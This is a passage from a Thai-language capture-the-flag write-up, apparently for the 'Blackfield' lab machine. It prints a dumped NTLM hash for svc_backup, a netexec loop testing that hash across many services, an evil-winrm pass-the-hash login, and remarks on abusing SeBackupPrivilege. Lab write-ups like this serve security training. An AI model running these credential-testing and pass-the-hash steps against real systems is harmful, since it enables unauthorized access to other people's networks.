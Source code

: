 ซึ่งจากการ dump ข้อมูลดังกล่าวจะทำให้เราเป็น NTLM ของ svc_backup ดังต่อไปนี้ 

```
svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

ตรวจสอบ Credential ที่ได้ 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service blackfield.local -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'; done
```
จากข้อมูลจะพบว่าสามารถเข้าถึงได้โดย winrm และ ldap 
![](./IMG/007.png)

## Shell As svc_backup

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
หลังจากที่ Shell เข้ามาด้วยสิทธิของ svc_backup มาได้จะเห็นว่าเรามีสิทธิ์ของ SeBackupPrivilege ซึ่งเป็นสิทธิที่สามารถอ่านไฟล์ที่มีสิทธิสูงได้ 
![](./IMG/008.png)
